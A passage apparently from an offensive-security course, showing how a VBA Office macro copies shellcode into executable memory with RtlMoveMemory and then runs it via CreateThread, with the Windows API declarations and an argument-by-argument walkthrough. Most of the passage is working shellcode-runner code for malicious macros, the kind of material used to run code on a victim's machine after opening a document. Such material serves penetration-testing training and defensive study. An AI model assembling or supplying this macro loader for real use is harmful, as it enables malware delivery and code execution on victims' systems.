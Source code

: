 ```
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

....

Dim counter As Long
Dim data As Long
Dim res as LongPtr

For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```

> Listing 23 - Call to import RtlMoveMemory and call it

With the shellcode bytes copied into the executable buffer, we are ready to execute it with [_CreateThread_](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread).

_CreateThread_ is a fairly complicated API that instructs the operating system to create a new execution thread in a process. We'll use this to spawn an execution thread with our shellcode, which is located at a specified memory address.

Here's the function prototype for _CreateThread_:

```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```

> Listing 24 - Function prototype for CreateThread

While the number of arguments and the associated documentation may seem daunting, we don't need most of them, and we can set them to "0". First, as with the previous APIs, we must import the function and translate its arguments to VBA data types. The first two are used to specify non-default settings for the thread and since we won't need them, we will set these values to zero and specify them as _Long_.

The third argument, _lpStartAddress_, is the start address for code execution and must be the address of our shellcode buffer. This is translated to _LongPtr_.

The fourth argument, _lpParameter_, is a pointer to arguments for the code residing at the starting address. Since our shellcode requires no arguments, we can set this parameter type to _LongPtr_ with a value of zero.

The declaration and import are shown below.

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
```
